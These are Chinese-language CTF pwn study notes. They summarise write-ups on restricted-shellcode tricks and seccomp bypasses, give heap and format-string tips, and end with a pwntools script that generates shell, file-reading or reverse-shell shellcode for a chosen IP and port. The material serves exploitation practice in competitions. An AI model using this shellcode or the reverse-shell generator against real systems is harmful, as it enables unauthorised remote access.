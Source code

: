 - [Janky](https://github.com/tamuctf/tamuctf-2024/tree/master/pwn/janky)
  - 要求shellcode反编译后的每个指令都以j开头。能用的指令只有jmp，可以利用jmp的目标立即数实现RCE。这块得看wp才好理解，具体是，jmp指令后面的立即数最多4个字节，那么可以将shellcode分成多个部分，每个部分长4个字节，写成立即数跟在jmp后面。然后利用错位jmp，跳过开头的jmp指令，直接跳到立即数部分，就能执行这些立即数代表的shellcode了
  - 大佬写的自动化脚本： https://github.com/9x14S/jmp-encoder
- [baby-sandbox](https://unvariant.pages.dev/writeups/amateursctf-2024/pwn-baby-sandbox/)
  - 可以使用sysenter来调用syscall。只是使用sysenter前，rbp和其他参数要指向可读地址；且这个指令只能在64位的intel处理器上用
  - wp里提到了vector registers（以后写shellcode可以注意下，说不定直接就非预期简单解了）和侧信道解法
  - 更详细wp： https://hyggehalcyon.gitbook.io/page/ctfs/2024/amateursctf#baby-sandbox
- [randomness](https://github.com/cr3mov/cr3ctf-2024/tree/main/challenges/pwn/randomness)
  - 每8个字节的shellcode的最后一个字节会被随机数字异或。预期解是将rdi设为0，然后只用7个字节跳转到调用srand的地方。这样就能知道接下来的随机数了
  - 但我记这道题主要还是因为这个非预期解: https://gist.github.com/C0nstellati0n/c5657f0c8e6d2ef75c342369ee27a6b5#randomness 。我们可以执行任意多个长度为5字节的shellcode，只需要在最后拼接上长为2字节的相对jmp，就能跳过接下来被随机化的字节，到下一个5字节指令
- [Bad Trip](https://github.com/AkaSec-1337-CyberSecurity-Club/Akasec-CTF-2024/tree/main/pwn/bad_trip_and_the_absolute_horror_of_the_trip)
  - MMU cache side-channel attack to bypass ASLR
- [syscalls](https://flex0geek.blogspot.com/2024/07/pwn-writeup-syscalls-and-backup-power.html)
  - 使用openat，preadv2和pwritev2读取文件内容
  - 其他做法：
    - https://gist.github.com/C0nstellati0n/c5657f0c8e6d2ef75c342369ee27a6b5#syscalls ：使用openat+mmap+pwritev2读取文件内容，并用pwntools编写shellcode。之前没注意，今天发现mmap有个参数fd，用open或openat等函数得到文件fd后，用mmap就能得到文件的内容，不是非得read系函数
    - https://github.com/rerrorctf/writeups/tree/main/2024_06_29_UIUCTFCTF24/pwn/syscalls ：seccomp rule规定只要writev的fd大于0x3e9就能使用writev。于是用openat+preadv2读文件后用dup2复制文件fd再用writev写（所以为什么不用第一个wp的pwritev2）
- [syscalls-2](https://gist.github.com/C0nstellati0n/c5657f0c8e6d2ef75c342369ee27a6b5#syscalls-2)
  - 使用io_uring raw syscall读取文件（一种很复杂的open+read，绕seccomp可用）
- [VisibleInput](../../CTF/moectf/2024/Pwn/VisibleInput.md)
  - alphanumeric shellcode encoder [ae64](https://github.com/veritas501/ae64)使用

1. 程序关闭标准输出会导致getshell后无法得到cat flag的输出。这时可以用命令`exec 1>&0`将标准输出重定向到标准输入，再执行cat flag就能看见了。因为默认打开一个终端后，0，1，2（标准输入，标准输出，标准错误）都指向同一个位置也就是当前终端。详情见这篇[文章](https://blog.csdn.net/xirenwang/article/details/104139866)。例题：[wustctf2020_closed](https://buuoj.cn/challenges#wustctf2020_closed)
2. 做菜单类堆题时，添加堆块的函数一般是最重要的，需要通过分析函数来构建出程序对堆块的安排。比如有些笔记管理题会把笔记名称放一个堆中，笔记内容放另一个堆中，再用一个列表记录指针。了解程序是怎么安排堆后才能根据漏洞制定利用计划。如果分析不出来，用gdb调试对着看会好很多。例题：[babyfengshui](https://github.com/C0nstellati0n/NoobCTF/blob/main/CTF/%E6%94%BB%E9%98%B2%E4%B8%96%E7%95%8C/6%E7%BA%A7/Pwn/babyfengshui.md)
3. 32位利用A和%p计算格式化字符串偏移+$hn按字节改got表。例题：[axb_2019_fmt32](https://github.com/C0nstellati0n/NoobCTF/blob/main/CTF/BUUCTF/Pwn/axb_2019_fmt32.md)
4. pwntools生成shellcode

适用于linux。不过我到现在还没见过windows的pwn，可能是windows考的不多吧。

```python
from pwn import *
arch=input("arch? i386/amd64: ")
context(log_level = 'debug', arch = arch, os = 'linux')
choice=input("shell/orw/reverse: ")[:-1]
if choice=="shell":
    shellcode=asm(shellcraft.sh())
    print(shellcode)
elif choice=="reverse":
    ip = input("IP: ")[:-1]
    port=int(input('port: ')[:-1])
    print(asm(shellcraft.connect(ip, port) + shellcraft.dupsh()))
else:
    mmap_addr = int(input("hex addr: "),16)
    filename=input("filename: ")
    length=int(input("length(in decimal): "))
    shellcode = shellcraft.open(filename)
    shellcode += shellcraft.read(3, mmap_addr, length)
    shellcode += shellcraft.write(1, mmap_addr, length)
    print(asm(shellcode))
```
